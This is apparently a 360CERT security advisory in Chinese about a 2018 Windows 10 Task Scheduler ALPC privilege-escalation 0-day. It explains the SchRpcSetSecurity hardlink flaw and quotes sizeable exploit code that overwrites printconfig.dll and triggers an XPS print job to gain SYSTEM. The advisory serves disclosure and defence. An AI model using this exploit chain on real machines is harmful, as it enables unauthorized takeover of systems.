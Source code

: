```yaml
---
id: 208606780533f78f0731544f1935f8b2
title: win10本地提权 0Day 预警
tags: 
  - 安全资讯
  - 360CERT
---
```


# win10本地提权 0Day 预警

0x00 漏洞背景
---------


win10中任务调度服务导出的函数没有验证调用者的权限，任意权限的用户调用该函数可以获取系统敏感文件的写权限，进而提权。


0x01 漏洞影响
---------


漏洞影响win10和windows server 2016。目前发布的EXP暂时只能用于x64系统。


0x02 漏洞详情
---------


win10系统Task Scheduler任务调度服务中ALPC调用接口导出了SchRpcSetSecurity函数，该函数能够对一个任务或者文件夹设置安全描述符。



```
 HRESULT SchRpcSetSecurity(
 [in, string] const wchar\_t* path,
 [in, string] const wchar\_t* sddl,
 [in] DWORD flags
 );

```
该服务是通过svchost的服务组netsvcs所启动的，对应的dll是schedsvc.dll。


![alt](https://p403.ssl.qhimgs4.com/t017b0987036d55e326.png)


![alt](https://p403.ssl.qhimgs4.com/t018ae12ad1bdb01f38.png)


![alt](https://p403.ssl.qhimgs4.com/t015deed4a3b2679771.png)


在xp系统中，任务存放在C:\Windows\Tasks目录，后缀为.job；而win7及以后的版本任务以xml的格式存放在C:\Windows\System32\Tasks目录。


![alt](https://p403.ssl.qhimgs4.com/t012463785a6b70df71.png)


可能是为了兼容的考虑，SchRpcSetSecurity函数在win10中仍然会检测C:\Windows\Tasks目录下是否存在后缀为.job的文件，如果存在则会写入DACL数据。如果将job文件硬链接到特定的dll那么特定的dll就会被写入DACL数据，本来普通用户对特定的dll只具有读权限，这样就具有了写权限，接下来向dll写入漏洞利用代码并启动相应的程序就获得了提权。


那么首先需要找到一个普通用户具有读权限而系统具有写入DACL权限的dll，EXP中用的是C:\Windows\System32\DriverStore\FileRepository\prnms003.inf\_amd64\_4592475aca2acf83\Amd64\printconfig.dll，然后将C:\Windows\Tasks\UpdateTask.job硬链接到这个dll。



```
    WIN32_FIND_DATA FindFileData;
    HANDLE hFind;
    hFind = FindFirstFile(L"C:\\Windows\\System32\\DriverStore\\FileRepository\\prnms003.inf\_amd64*", &FindFileData);
    wchar\_t BeginPath[MAX_PATH] = L"c:\\windows\\system32\\DriverStore\\FileRepository\\";
    wchar\_t PrinterDriverFolder[MAX_PATH];
    wchar\_t EndPath[23] = L"\\Amd64\\PrintConfig.dll";
    wmemcpy(PrinterDriverFolder, FindFileData.cFileName, wcslen(FindFileData.cFileName));
    FindClose(hFind);
    wcscat(BeginPath, PrinterDriverFolder);
    wcscat(BeginPath, EndPath);

    //Create a hardlink with UpdateTask.job to our target, this is the file the task scheduler will write the DACL of
    CreateNativeHardlink(L"c:\\windows\\tasks\\UpdateTask.job", BeginPath);

```
在调用SchRpcSetSecurity函数使普通用户成功获取了对该dll写入的权限之后写入资源文件中的exploit.dll。



```
    //Must be name of final DLL.. might be better ways to grab the handle
    HMODULE mod = GetModuleHandle(L"ALPC-TaskSched-LPE");

    //Payload is included as a resource, you need to modify this resource accordingly.
    HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
    unsigned int myResourceSize = ::SizeofResource(mod, myResource);
    HGLOBAL myResourceData = ::LoadResource(mod, myResource);
    void* pMyBinaryData = ::LockResource(myResourceData);

    //We try to open the DLL in a loop, it could already be loaded somewhere.. if thats the case, it will throw a sharing violation and we should not continue
    HANDLE hFile;
    DWORD dwBytesWritten = 0;
    do {
        hFile = CreateFile(BeginPath,GENERIC_WRITE,0,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);                  
        WriteFile(hFile,(char*)pMyBinaryData,myResourceSize,&dwBytesWritten,NULL);           
        if (hFile == INVALID_HANDLE_VALUE)
        {
            Sleep(5000);
        }
    } while (hFile == INVALID_HANDLE_VALUE);
    CloseHandle(hFile);

```
printconfig.dll和系统打印相关，并且没有被print spooler服务默认启动。所以随后调用StartXpsPrintJob开始一个XPS打印。



```
    //After writing PrintConfig.dll we start an XpsPrintJob to load the dll into the print spooler service.
    CoInitialize(nullptr);
    IXpsOMObjectFactory *xpsFactory = NULL;
    CoCreateInstance(__uuidof(XpsOMObjectFactory), NULL, CLSCTX_INPROC_SERVER, __uuidof(IXpsOMObjectFactory), reinterpret\_cast<LPVOID*>(&xpsFactory));
    HANDLE completionEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    IXpsPrintJob *job = NULL;
    IXpsPrintJobStream *jobStream = NULL;
    StartXpsPrintJob(L"Microsoft XPS Document Writer", L"Print Job 1", NULL, NULL, completionEvent, NULL, 0, &job, &jobStream, NULL);
    jobStream->Close();
    CoUninitialize();
    return 0;

```
整个漏洞利用程序编译出来是个dll，把它注入到notepad中运行，发现spoolsv.exe创建的notepad已经具有SYSTEM权限，而系统中的printconfig.dll也被修改成了资源文件中的exploit.dll。


![alt](https://p403.ssl.qhimgs4.com/t01803853bace9f67ea.jpeg)


![alt](https://p403.ssl.qhimgs4.com/t0141ce518b48e313e3.png)


0x03 防御措施
---------


建议用户安装360安全卫士等终端防御软件拦截利用此类漏洞的攻击，不要打开来源不明的程序。


0x04 时间线
--------


**2018-08-27** 漏洞详情公开披露


**2018-08-29** 360CERT发布漏洞预警


0x05 参考链接
---------


1. <https://github.com/SandboxEscaper/randomrepo>
2. <https://msdn.microsoft.com/en-us/library/cc248452.aspx>


